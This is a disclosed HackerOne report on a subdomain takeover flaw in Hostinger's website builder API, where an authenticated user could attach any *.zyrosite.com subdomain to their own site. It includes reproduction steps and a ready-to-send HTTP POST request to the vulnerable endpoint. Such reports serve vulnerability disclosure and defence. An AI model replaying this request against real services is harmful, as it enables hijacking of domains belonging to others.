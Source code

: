 # Able to take over .zyrosite.com subdomains via `/v3/publish/connect-domain-hostinger` API endpoint

## Report Details
- **Report ID**: 1767771
- **URL**: https://hackerone.com/reports/1767771
- **State**: Closed
- **Severity**: low
- **Submitted**: 2022-11-09T13:02:52.700Z
- **Disclosed**: 2022-12-05T14:57:25.804Z

## Reporter
- **Username**: tosun
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: hostinger

## Vulnerability Information
## Summary:
Hey team, I was able to take over *anysubdomain*.zyrosite.com via https://builder-backend.hostinger.com/v3/publish/connect-domain-hostinger endpoint.

I was connected following subdomains to my site for confirming this vulnerability, ;
`test.zyrosite.com` and `connect.zyrosite.com` ( this was my fault )

you'll see a text like`tosun pwn` on these subdomains, but If you follow the below steps, you can also connect your site to test.zyrosite.com`

## Steps To Reproduce:

> ###`you need to single shared hosting service to reproduce this issue`

1. Login to your hostinger account from hpanel.hostinger.com
2. Create a website then go to website builder / editor ( you'll be go to like this https://builder.hostinger.com/{siteId} )
3. Publish your site with top right button

Now get your cookies and paste to below HTTP request

```
POST /v3/publish/connect-domain-hostinger HTTP/2
Host: builder-backend.hostinger.com
Cookie: {use your cookies on builder page)
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 61
Origin: https://builder.hostinger.com
Referer: https://builder.hostinger.com/
Te: trailers

{"domain":"test.zyrosite.com","siteId":"{yourSiteId}"}
``` 

my hostinger account email: █████
my siteId: `█████`

## Impact

able to takeover *.zyrosite.com subdomains.

## Attachments
No attachments
